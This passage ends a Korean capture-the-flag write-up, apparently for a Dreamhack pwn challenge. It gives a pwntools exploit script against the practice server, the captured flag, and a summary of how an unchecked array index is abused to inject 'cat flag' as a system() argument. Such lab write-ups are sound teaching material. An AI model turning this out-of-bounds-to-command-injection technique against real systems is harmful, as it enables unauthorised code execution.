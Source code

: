
### 4. 공격 코드

```python
from pwn import *

p = remote("host3.dreamhack.games", 22629)
payload = p32(0x804a0ac + 4) + b"cat flag"
p.sendlineafter("name: ", payload)
p.sendlineafter("want?: ", b"19")
print(p.recv(100).decode())
```

---

### 5. 공격 결과

* `system("cat flag")`가 실행되어 flag 노출

```
DH{2524e20ddeee45f11c8eb91804d57296}
```

---

### 6. 요약

* `idx` 범위 검사 누락으로 OOB 가능
* `command[idx]`를 `name`으로 유도 → 포인터 인젝션
* system 호출 인자로 `name+4`를 전달하여 원하는 명령 실행

